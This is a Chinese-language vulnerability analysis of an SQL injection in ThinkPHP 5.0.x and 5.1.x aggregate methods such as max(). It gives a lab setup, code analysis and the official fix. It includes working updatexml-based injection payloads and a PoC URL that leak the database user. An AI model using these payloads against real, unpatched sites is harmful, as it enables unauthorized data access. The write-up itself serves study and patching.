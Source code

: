 5.0.0 \<= Thinkphp \<= 5.0.21 & 5.1.3\<=ThinkPHP5\<=5.1.25
==========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql**
聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql**
聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进
**SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

漏洞概要
--------

二、漏洞影响
------------

5.0.0\<=ThinkPHP\<=5.0.21

5.1.3\<=ThinkPHP5\<=5.1.25

三、复现过程
------------

不同版本 **payload** 需稍作调整：

 **5.0.0\~5.0.21** 、 **5.1.3～5.1.10** ：

    id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

**5.1.11～5.1.25** ：

    id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

漏洞环境
--------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.1.25 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.25"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $options = request()->get('options');
            $result = db('users')->max($options);
            var_dump($result);
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'Mochazz');
    insert into users(id,username) values(2,'Jerry');
    insert into users(id,username) values(3,'Kitty');

### poc

    http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId27.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId29.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId30.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max**
方法进行聚合查询语句构造，接着调用本类的 **aggregate**
方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在
**SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的
**aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量
**\$field** ，经过 **parseKey** 方法处理后，与 **SQL**
语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId31.png)

**parseKey**
方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过
**parseKey** 方法处理后，程序又回到了上图的 **\$this-\>value()**
方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL**
语句。这个方法应该说是在分析 **ThinkPHP**
漏洞时，非常常见的了。其无非就是使用 **str\_replace** 方法，将变量替换到
**SQL** 语句模板中。这里，我们重点关注 **parseField**
方法，因为用户可控数据存储在 **\$options\[\'field\'\]**
变量中并被传入该方法。

![5.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId32.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey**
方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL**
语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId33.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号**
以外的字符时，就抛出异常。

![3.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId35.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](./resource/5.0.0<=Thinkphp<=5.0.21sql注入漏洞/media/rId37.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
